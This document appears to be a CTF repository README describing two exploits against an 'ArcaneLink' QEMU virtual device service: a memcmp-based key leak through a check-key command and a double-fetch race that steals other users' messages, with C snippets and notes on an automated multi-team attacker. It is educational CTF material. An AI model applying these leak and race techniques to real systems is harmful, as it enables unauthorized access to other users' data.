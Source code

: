 # ArcaneLink - Exploits

The C files in this directory are the actual exploits to run inside QEMU guests
(the VMs managed by the service), while the Python files are simple wrappers
that connect to the service, compile, upload and run the exploit on the VMs.

Additionally, [`simple_attacker.py`](./simple_attacker.py) provides a simple
weaponization of the two exploits to run on multiple teams in parallel with
automatic flag submission.

**NOTE** that in order to cross compile the exploit for AArch64 you will need a
cross compilation toolchain:

```bash
sudo apt-get install gcc-aarch64-linux-gnu binutils-aarch64-linux-gnu
```


## Exploit 1 - Info leak in check key command

[`exploit_leak_key.c`](./exploit_leak_key.c) exploits the information leak
present in the ArcaneLink device through the `CMD_CHK_KEY` command used to check
the validity of a given key for a given UID.

To leak the key we start with a key initialized to `0xffffffffffffffff`:
```c
uint8_t key[8] = {0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff};
```

Then for each byte in the key (8) we set the current byte to 0x0 and we invoke `CMD_CHK_KEY`, we will have 3 possible results:
```c
for (size_t i = 0; i < sizeof(key); i++) {
    key[i] = 0;

    // issue the cmd

    // ...

    leak = ret & 0xffffff; // return value of the cmd

    // memcmp returned original_key[i] - 0x0
    if (leak > 0)
        key[i] = leak;
    // original_key[i] is 0x0, so memcmp returned original_key[i+1] - 0xff
    else if (leak < 0)
        key[i] = 0;
    // if ret = 0 we found the key, exit the loop
    else
        break;
}
```


## Exploit 2 - Double fetch in message peek command + race condition

[`exploit_race_cond.c`](./exploit_race_cond.c) exploits the double fetch in the
implementation of the `CMD_PEEK_MSG` command and the race condition between the
thread handling requests and the MMIO write handler.

First we fill the current msg queue with many messages containing `"PWN"` to
later distinguish whether we peeked our own messages (exploit attempt failed) or
not (exploit attempt succeeded).

Then, to win the race condition with the qemu thread we immediately start a
thread that performs an `8-byte` write of the desired `mid` and `uid` at
`&req->mid` in a busy loop. Given that we write at `&req->mid`, we bypass the
locking done in `arcane_guest_write()` and overwrite `uid` while the
`arcane_thread_worker()` function is running:

Our thread:

```c
static void *th(void *arg) {
	volatile guest_req_t *req = (volatile guest_req_t *)arg;
	puts("[thread] started");

	while (1) {
		*(volatile uint64_t *)&(req->mid) = ((uint64_t)target_uid) << 32 | target_msg_idx;
	}

	return NULL;
}
```

Note that in some lucky scenarios you could also win the race without using a
thread (using the thread is much more reliable though) as follows:

```c
// schedule CMD_PEEK_MSG
req->cmd = CMD_PEEK_MSG;
// potentially sleep for some usec here
// perform write and overwrite uid
*(volatile uint64_t *)&(req->mid) = ((uint64_t)target_uid) << 32 | target_msg_idx;
```

After spawning `th` we repeatedly issue `CMD_PEEK_MSG` in the hope that our
thread changes the UID right after the `auth_uid()` check in
`qemu_thread_worker()`, but before the call to `get_qid_from_uid()`:

```c
case CMD_PEEK_MSG: {
    key = req->key;

    // req->uid is read [1]
    if ((ret = auth_uid(req->uid, key)) != 0) {
        arcanelog("    [-] auth failed\n");
        ret |= STATUS_ERROR;
        break;
    }

    // HERE <-----

    // req->uid is read [2]
    qid = get_qid_from_uid(req->uid);
    if (qid == -1) {
        arcanelog("    [-] invalid uid\n");
        ret = STATUS_ERROR | ERR_INVALID_UID;
        break;
    }

    // ...
```

Each time that we receive a message different from `"PWN"` we know that we stole
a message from the message queue of the target UID, and in that case we
increment the message index by 1 and continue the loop.

```c
// ...
fill_msgqueue(req);
// ...
pthread_create(&thread, NULL, th, (void*)req);
// ...

my_uid = getuid();
req->key = my_key;
req->mid = 0;

for (; target_msg_idx <= end_idx; target_msg_idx++) {
    size_t attempts;

    for (attempts = 1; ; attempts++) {
        req->uid = my_uid;
        req->cmd = CMD_PEEK_MSG;
        while ((status = req->status) == STATUS_BUSY) usleep(10);

        if ((status & 0xff000000) == STATUS_ERROR && (status & 0xffffff) == ERR_ENOMSG)
            goto no_more_msgs;

        if ((status & 0xff000000) == STATUS_OK) {
            // If we peek something other than the previously pushed msg,
            // we just stole a msg that is not ours
            if (strcmp((char *)req->buf, "PWN"))
                break;
        }
    }

    printf("[exploit] stolen msg at idx %" PRIu32 " (%" PRIu64 " attempts): %s\n", target_msg_idx, attempts, req->buf);
    success = true;
}
```

Note that the race can fail in two ways:

1. Our thread changes `req->uid` before `auth_uid`: in this case the command
   will fail with `STATUS_ERROR|ERR_INVALID_KEY` (`0x02000004`).
2. Our thread changes `req->uid` after the call to `get_qid_from_uid()`: in this
   case the message will be popped from our queue instead. Since we initially
   filled our message queue with known messages (`"PWN"`), we can easily
   distinguish this case by checking the peeked message.

Finally, if we ever get a status of `STATUS_ERROR|ERROR_ENOMSG` (i.e.
`0x02000009`) we can safely stop as the target UID does not own any more
messages.
